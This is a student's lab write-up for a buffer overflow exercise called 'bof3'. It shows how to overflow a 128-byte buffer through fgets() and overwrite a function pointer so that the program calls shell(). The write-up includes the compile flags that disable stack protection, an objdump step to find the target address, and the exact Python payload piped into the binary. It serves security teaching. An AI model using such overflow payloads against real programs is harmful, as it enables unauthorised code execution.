 # Lab bof3
Hà Quốc Tiến - 22110075<br>
## Target
- `void (*func)()=sup;` is calling the `sup()`, we want it to run the `shell()` instead.
## Solution
- Stack frame<br>
![bof3_1](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof3_1.png)
- Viewing the stack frames, we see that in order to call `shell()` instead. We need to buffer-overflow so that `(*func)() = "shell()'s address"`. It's similar to `bof2.c`, here we also look at the `fgets()`. And see it can take 133 bytes of data, while `buf` can only store 128.<br>
## Execution
1. Create `bof3.out` by using ` gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
2. Get the address of `shell()`.<br>
    > `objdump -d bof3.out|grep shell`

    ![bof3_2](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof3_2.png)
3. We start buffer-overflowing 132 bytes of data into `buf[128]`.
128 bytes of random data + 4 bytes address of `shell()`<br>
    > echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')")| ./bof3.out

    ![bof3_3](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof3_3.png)
- And the labs is done.
